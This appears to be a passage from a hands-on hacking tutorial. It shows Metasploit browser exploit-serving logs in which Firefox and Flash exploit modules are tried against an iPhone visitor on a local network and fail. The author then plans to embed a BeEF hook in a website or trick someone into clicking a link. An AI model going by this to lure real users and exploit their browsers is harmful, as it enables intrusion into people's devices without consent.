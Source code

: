 ```
[*] Received cookie 'VitbVdMt' from 192.168.1.78
[*] Serving exploit to user 192.168.1.78 with tag VitbVdMt
[*] Setting target "VitbVdMt" to :tried.
[*] Received cookie 'VitbVdMt' from 192.168.1.78
[*] User 192.168.1.78 (Tag: VitbVdMt) visited our malicious link, but no exploits found suitable.
[*] 192.168.1.78     firefox_webidl_injection - Received cookie 'vvZkOBNUtskSfbOXHT' from 192.168.1.78
[*] 192.168.1.78     firefox_webidl_injection - Received cookie 'vvZkOBNUtskSfbOXHT' from 192.168.1.78
[*] 192.168.1.78     firefox_webidl_injection - Serving exploit to user 192.168.1.78 with tag vvZkOBNUtskSfbOXHT
[*] 192.168.1.78     firefox_webidl_injection - Setting target "vvZkOBNUtskSfbOXHT" to :tried.
[*] 192.168.1.78     firefox_webidl_injection - Comparing requirement: source=script vs source=script
[*] 192.168.1.78     firefox_webidl_injection - Comparing requirement: ua_name=Firefox vs ua_name=Safari
[*] 192.168.1.78     firefox_webidl_injection - Comparing requirement: ua_ver=#<Proc:0x000055d93d2bdad8@/usr/share/metasploit-framework/modules/exploits/multi/browser/firefox_webidl_injection.rb:59 (lambda)> vs ua_ver=undefined
[!] 192.168.1.78     firefox_webidl_injection - Exploit requirement(s) not met: ua_name, ua_ver. For more info: http://r-7.co/PVbcgx
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Received cookie 'vvZkOBNUtskSfbOXHT' from 192.168.1.78
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Received cookie 'vvZkOBNUtskSfbOXHT' from 192.168.1.78
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Serving exploit to user 192.168.1.78 with tag vvZkOBNUtskSfbOXHT
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Setting target "vvZkOBNUtskSfbOXHT" to :tried.
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Comparing requirement: source=(?i-mx:script|headers) vs source=script
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Comparing requirement: os_name=#<Proc:0x00007f44b83c6348@/usr/share/metasploit-framework/modules/exploits/windows/browser/adobe_flash_worker_byte_array_uaf.rb:43 (lambda)> vs os_name=iOS
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Comparing requirement: ua_name=#<Proc:0x00007f44b83c6320@/usr/share/metasploit-framework/modules/exploits/windows/browser/adobe_flash_worker_byte_array_uaf.rb:47 (lambda)> vs ua_name=Safari
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Comparing requirement: flash=#<Proc:0x00007f44b83c62d0@/usr/share/metasploit-framework/modules/exploits/windows/browser/adobe_flash_worker_byte_array_uaf.rb:48 (lambda)> vs flash=
[*] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Comparing requirement: arch=x86 vs arch=armle
[!] 192.168.1.78     adobe_flash_worker_byte_array_uaf - Exploit requirement(s) not met: os_name, ua_name, flash, arch. For more info: http://r-7.co/PVbcgx

```

**Unfortantly for now I was unable to successfully exploit and get a meterpreter shell into my latest iOS version iPhone... Let try this same technique on a Windows laptop or Linux

**First let's say we've embedded our beef attack into a website or just simply tricked someone into click a link.
